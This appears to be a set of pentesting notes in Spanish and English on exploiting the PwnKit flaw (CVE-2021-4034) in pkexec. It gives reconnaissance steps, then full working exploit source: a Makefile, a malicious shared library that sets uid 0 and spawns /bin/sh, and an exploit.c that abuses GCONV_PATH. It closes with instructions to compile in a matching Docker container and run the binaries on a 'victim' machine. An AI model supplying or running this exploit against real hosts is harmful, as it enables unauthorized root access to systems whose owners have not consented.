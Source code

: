 Afecta a versiones vulnerables de pkexec, que tiene el SUID activado.
This tool is using SUID-root to run commands as another user, normally the super user (root). However, the flaw arises from the sloppy processing of command line arguments. An out-of-bounds read and write occurs in main() of pkexec, posing this security risk. 

Therefore, by setting environment variables like **GCONV_PATH** malicious code can be executed as the super user.

1. Ver localización del binario `locate pkexec`
2. Ver versión `<ruta>/pkexec --version`
3. Poner en internet la versión pkexec exploit y ver si tiene asociada el CVE aqui descrito
4. Ver os-release de la máquina víctima `cat /etc/os-release`
	Ejemplo de salida:
```os-release
NAME="Ubuntu"
VERSION="20.04.3 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.3 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```

Estos tres archivos son necesarios para explotar la vulnerabilidad.
1.  Makefile
```Makefile
all: 
	gcc -shared -o evil.so -fPIC evil-so.c 
	gcc exploit.c -o exploit 
clean: 
	rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
```

2.  evil-so.c
```c
#include <stdio.h> 
#include <stdlib.h> 
#include <unistd.h> 
void gconv() {} 
void gconv_init() 
{ 
	setuid(0); 
	setgid(0); 
	setgroups(0); 
	execve("/bin/sh", NULL, NULL); 
}
```

3. exploit.c
```c
##### exploit.c ##### 
#include <stdio.h> 
#include <stdlib.h> 
#define BIN "/usr/bin/pkexec" 
#define DIR "evildir" 
#define EVILSO "evil" 
int main() { 
	char *envp[] = { DIR, "PATH=GCONV_PATH=.", "SHELL=ryaagard", "CHARSET=ryaagard", NULL }; 
	char *argv[] = { NULL }; 
	system("mkdir GCONV_PATH=."); 
	system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR); system("mkdir " DIR); 
	system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules"); 
	system("cp " EVILSO ".so " DIR); 
	execve(BIN, argv, envp); 
	return 0; 
}
```

Hay que compilarlos en una máquina con la misma versión de ldd que la víctima (**EN EL CASO DE QUE LA VICTIMA NO TENGA NI MAKE NI GCC**), por ello usamos un contenedor.
1. Colocamos en una carpeta, por ejemplo `work` los 3 archivos descritos arriba, el Makefile, el evil.so.c y el exploit.c.
2. Creamos un contenedor con la versión de la máquina víctima y un volumen en el directorio actual que es donde están los ficheros arriba descritos.
```bash
docker run --rm -it -v "$PWD":/work ubuntu:20.04 bash
```
3. Una vez dentro del contenedor, instalamos las dependencias para usar make y gcc:
```bash
apt-get update
apt-get install -y build-essential
```

4. Entramos en la carpeta dónde se montó el volumen /work y ahí estarán los ficheros.
5. Compilamos con `make all`
6. Comprobamos que están lo binarios `ll`
7. Los transferimos a la máquina víctima y ejecutamos `./exploit`

ENJOY ROOT!

Para más detalle:  https://ine.com/blog/exploiting-pwnkit-cve-2021-4034-techniques-and-defensive-measures